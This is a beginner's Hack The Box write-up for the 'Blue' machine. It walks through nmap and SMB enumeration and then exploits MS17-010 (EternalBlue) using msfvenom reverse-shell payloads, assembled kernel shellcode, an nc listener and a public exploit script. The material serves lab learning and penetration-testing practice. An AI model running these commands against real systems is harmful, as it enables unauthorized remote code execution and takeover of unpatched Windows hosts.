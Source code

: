 ```yaml
---
title: "HTB - Blue"
date: 2021-01-30T16:37:44+01:00
categories: ["hacking"]
tags: [HTB]
featuredImage: "/images/2021/02/Blue.png"
---
```

A good ol' vuln to get starting!

This will be my first real tutorial, so I'll try to explain the basics of what I am doing. Please bear in mind that I am very new to haking, probably like you are. I am merely sharing my knowledge and by doing so I am making sure I inderstood what I did. Please correct me if you find anything wrong, or ask question if you need to! I'll be happy to engage a discussion.

NB : The following notes use $target_ip = IP of the target machine. This is more convenient when machine changes its IP.

A note about “sudo”. I am a firm believer in the “least privileges” methodology, like never use you admin account on AD domain for day to day use, and never use sudo if you don't need to. For example, search a package with “apt search X” and install it wish ‘sudo apt install X". However, in case of Kali and nmap, I noticed that in quite often requires root. This is why I will run nmap (and many other Kali tools) with sudo! I do not log in as root, but as a regular user I created but I almost always use “sudo”.

I will process simply by following the 5 stages of Ethical Hacking.

##  Recon

Doing HTB boxes, there will be no proper reconnaissance phase; since Googling for the box will obviously leave to solution which we do not want... Let's just say we can use the name to have a guess. Here, a Windows machine called Blue probably means we'll have to deal with MS17-010.. So I'll pay close attention to anything related to SMB.

##  Enum

Let's fire a quick nmap scan ;

```text
sudo nmap -T4 -p- $target_ip
```

![](/images/2021/01/2021-01-27_14-21.png)

This quick nmap command will scan for all TCP ports, then, once done we will gather more in depth results by adding -A flag on specified ports (the one that responded from the previous step).

```text
sudo nmap -T4 -A -p $target_ip
```

![](/images/2021/01/2021-01-27_14-22.png)

NB : here, I just ignored some high ports 49xxx/tcp because this is not a real life test and I know that what I am looking for is related to SMB (445/tcp).

In parallel, I like to launch a Nessus basic scan on ALL ports (thanks @tcm for the tips) :

![](/images/2021/01/2021-01-27_13-21.png)

Like we guessed, it seems we will have to play with MS17-010 vuln, let's check that with nmap dedicated script :

```text
sudo nmap --script smb-vuln-ms17-010 10.129.75.134
```

![](/images/2021/01/2021-01-27_14-35.png)

It is becoming more and clear that this machine is vulnerable to ms17-10.

Since saw some SMB running; let's enumerate it :

NB : note the quadruple "", this is because it normally has only 2 but need escaping each time, hence the 4.

```text
smbclient -L $target_ip
```



![](/images/2021/01/2021-01-27_14-42.png)

Since we found a few share let's try to connect to each one of them anonymously, for example with the share called "Share":

```text
smbclient 10.129.75.134Share
```

![](/images/2021/01/2021-01-27_14-46.png)

Keep notes of what shares you have access to. You may differentiate where you have "listing" access and where you don't.

Now let's try to gain exploit this machine.

##  Gaining Access (exploitation)

My goal is to exploit without MetaSploit, if you don't know why, check this blog post.

Searching on the internet, I came around this GitHub that seems to be able to do the job: [https://github.com/helviojunior/MS17-010](https://github.com/helviojunior/MS17-010).

According to the repo we need to install impacket and mysmb, I'll let you do that, then we can use checker.py to see if we find any named pipe (since it is a safe way to exploit this) :

cd into the clone repo then run :

```text
python2 checker.py $target_ip
```

![](/images/2021/01/2021-01-27_14-54.png)

Unfortunately, we have no named pipes available... However, according to the repo :

> **Eternalblue** requires only access to IPC$ to exploit a target while other exploits require access to named pipe too. So the exploit always works against Windows &lt; 8 in all configuration (if tcp port 445 is accessible). However, Eternalblue has a chance to crash a target higher than other exploits.
>
> **Eternalchampion** requires access to named pipe. The exploit has no chance to crash a target.
>
> **Eternalromance** requires access to named pipe. The exploit can target Windows &lt; 8 because the bug for info leak is fixed in Windows 8. The exploit should have a chance to crash a target lower than Eternalblue. I never test a reliable of the exploit.
>
> **Eternalsynergy** requires access to named pipe. I believe this exploit is modified from Eternalromance to target Windows 8 and later. Eternalsynergy uses another bug for info leak and does some trick to find executable memory (I do not know how it works because I read only output log and pcap file).

Remember or recon phase and that Blue machine name? Looks like we are facing EternalBlue : we have seen that we have access to $IPC Share, Windows &lt; 8 (Windows 7 here), and port 445/tcp is open.

In order to exploit this we need to use the following (still according to the repo) :

```text
eternalblue_exploit7.py <ip> <shellcode_file> [numGroomConn]
```

The repo tells us that there is 2 shellcode, one for each arch.

However, we are not really sure which arch is our target. So we will assemble both shellcode :

cd into the shellcode dir and :

```text
nasm -f bin eternalblue_kshellcode_x86.asm -o ./sc_x86_kernel.bin nasm -f bin eternalblue_kshellcode_x64.asm -o ./sc_x64_kernel.bin
```

Once this is done, we create our payloads like so :

```text
msfvenom -p windows/shell_reverse_tcp LHOST=$attacker_ip LPORT=4444 -f raw -o sc_x86_msf.bin EXITFUNC=thread msfvenom -p windows/x64/shell_reverse_tcp LHOST=$attacker_ip LPORT=4444 -a x64 -f raw -o sc_x64_msf.bin EXITFUNC=thread
```

Finally we "join" the two payloads together (with the provided python script from the repo) so that we can check both arch at the same time and hopefully get a shell :

```text
cat sc_x86_kernel.bin sc_x86_msf.bin > sc_x86.bin cat sc_x64_kernel.bin sc_x64_msf.bin > sc_x64.bin python2 eternalblue_sc_merge.py sc_x86.bin sc_x64.bin sc_all.bin
```

[Many thanks to this website for the info on how to assemble the shellcode](https://redteamzone.com/EternalBlue/).

Now start a listener to receive the reverse shell on port 4444 (or the one you used with he msfvenom command):

```text
nc -lvp 4444
```

Let it open and finally, we run our command with the generated sc_all.bin as payload :

```text
python2 eternalblue_exploit7.py $target_ip ./shellcode/sc_all.bin
```

![](/images/2021/01/2021-01-27_15-45_1.png)

Bingo, we have a shell!

![](/images/2021/01/2021-01-27_15-48.png)

Here, in a normal pentest situation, we would make sure to have a way to maintain access. But this is HackTheBox, we will simply harvest our flags. :)

##  Maintaining Access

Not used here. :)

##  Covering Tracks

Not used here. :)